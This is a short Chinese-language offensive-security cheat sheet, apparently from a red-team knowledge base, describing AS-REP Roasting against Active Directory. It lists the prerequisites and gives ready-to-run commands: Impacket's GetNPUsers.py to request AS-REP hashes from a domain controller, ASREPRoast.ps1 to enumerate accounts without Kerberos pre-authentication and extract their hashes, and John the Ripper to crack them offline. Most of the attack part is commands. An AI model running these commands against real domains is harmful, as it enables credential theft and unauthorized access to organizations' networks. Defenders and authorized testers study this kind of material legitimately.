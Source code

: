 ```yaml
---
description: 基于Kerberos认证 / 离线爆破攻击 / 未开启Kerberos预身份验证
---
```


# ✔️ AS-REP Roasting攻击

## 先决条件

* 已经在目标域内建立了基本立足点
* 目标用户账户勾选了“不要求Kerberos预身份验证”这个选项

## 常用工具

### Impacket

* 常用脚本：**GetNPUsers.py**

```bash
# 针对指定某个用户账户的获取
pyhton3 GetNPUsers.py target.com/administrator -dc-ip 域控IP
# 针对多个用户账户
python3 GetNPUsers.py -dc-ip 域控IP -userfile users.txt
```

### Powershell

* 常用脚本：**ASREPRoast.ps1**

```powershell
# 搜索目标域内未开启预身份验证的用户
Import-Moudle .\ASREPRoast.ps1
# 过滤出hash值
Invoke-ASREPRoast | select -ExpandProperty Hash
```

### John the Ripper

```bash
# 用于将获取到的hash进行离线爆破出明文密码
john hash.txt rockyou.txt
```

{% hint style="info" %}
AS-REP Roasting攻击有些局限，因为它主要是针对没有开启Kerberos预身份验证的用户账户的攻击，然后通过离线爆破的方式获取到目标用户的密码。
{% endhint %}
